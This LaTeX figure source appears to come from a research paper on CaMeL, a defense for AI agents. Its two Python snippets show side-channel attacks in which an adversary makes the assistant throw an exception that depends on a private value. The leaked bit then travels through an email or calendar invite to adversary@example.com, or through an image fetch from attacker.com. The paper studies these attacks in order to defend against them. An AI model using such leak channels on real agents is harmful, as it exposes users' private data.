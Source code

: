 \documentclass[11pt, a4paper, logo, copyright]{googledeepmind}
\begin{document}
\begin{figure}[H]
	\centering
	\begin{minipage}[t]{0.45\linewidth}
		\begin{mintedbox}[autogobble,escapeinside=||]{python}
			# Side channel attack 1: CaMeL-specific fault
			# Variable that has a private value and has associated flow constraints
			|{\color{red}private\_var}| = 10

			outcome = query_ai_assistant(
			f"If '{private_var}' is 10, you don't have enough information", str)
			# If the variable is 10, an exception is thrown and execution is terminated


			# ADVERSARY OBSERVABLE ACTION
			# This line is executed only if `private_var` is not 10
			# For example:
			send_email(..., "adversary@example.com")
			# or
			send_calendar_invite(..., "adversary@example.com", ...)
			# or
			fetch_external_image(
			"attacker.com/cat.jpg")
		\end{mintedbox}
	\end{minipage}
	\begin{minipage}[t]{0.45\linewidth}
		\begin{mintedbox}[autogobble,escapeinside=||]{python}
			# Side channel attack 2: General induced fault
			# Variable that has a private value and has associated flow constraints
			|{\color{red}private\_var}| = 10

			l = [1, 2, 3]
			index = query_ai_assistant(
			f"If '{private_var}' is 10, then return 9999999999, else 0", int)
			# Throws an exception if private variable is 10
			l[index]

			# ADVERSARY OBSERVABLE ACTION
			# This line is executed only if `private_var` is not 10
			# For example:
			send_email(..., "adversary@example.com")
			# or
			send_calendar_invite(..., "adversary@example.com", ...)
			# or
			fetch_external_image(
			"attacker.com/cat.jpg")
		\end{mintedbox}
	\end{minipage}
	\caption{\textbf{Without  mode, an adversary could leak one private bit if they can trigger an exception conditional on the private data.} An external resource can infer the value of a private variable, despite not having a direct dependency on it, by raising an exception based on the private value and observing whether the execution of the program is completed. This is a simplified version of the more realistic and complete case we discuss in . We mitigate this issue with the  mode: all statements that come after a call to  (the \qllm) have a dependency on the call's arguments.}
	\label{fig:exceptions-sidechannel}
\end{figure}
\end{document}
